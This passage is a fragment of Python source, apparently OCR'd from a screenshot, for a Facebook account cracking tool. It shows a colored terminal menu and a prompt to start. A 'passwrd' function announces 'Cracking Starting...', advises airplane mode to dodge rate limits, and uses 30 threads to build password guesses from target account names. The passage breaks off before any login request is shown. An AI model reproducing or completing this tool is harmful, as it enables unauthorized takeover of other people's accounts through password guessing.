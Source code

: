 		exit()

	print("""%s \x1b[92;1m===================================>\x1b[92;1m """%(h))

	print("""%s \33[1;33m[01] B-Api (fast)"""%(h))

	print("""%s \x1b[92;1m<===================================>\x1b[92;1m """%(h))

	baloch = input(x+'\33[1;96m•Input Number> : ')

	if baloch in ['1','01']:

		method.append('api')

	else:

		method.append('api')

	print("""%s \x1b[92;1m===================================>\x1b[92;1m """%(h))

	fast = input(x+'\33[1;96m Want To Start ? (y/t) : ')

	if fast in ['y','Y']:

		passwrd()

	elif fast in ['t','T']:

		os.system("xdg-open to https://www.facebook.com/sardar.mahather")

		exit()

def passwrd():

	clear()

	banner()

	print("""%s \x1b[92;1m===================================>\x1b[92;1m """%(h))

	print(x+' '+h+' '+x+' Total ids : '+str(len(id)))

	print(x+'   [  IF NO RESULT USE AIRPLANE MODE  ]\n   Cracking Starting...')

	print("""%s \x1b[92;1m===================================>\x1b[92;1m """%(h))

	with tred(max_workers=30) as pool:

		for yuzong in id2:

			idf,nmf = yuzong.split('|')[0],yuzong.split('|')[1].lower()

			frs = nmf.split(' ')[0]

			pwv = []

			if len(nmf)<6:

				if len(frs)<3:

					pass

				else:

					pwv.append(nmf)
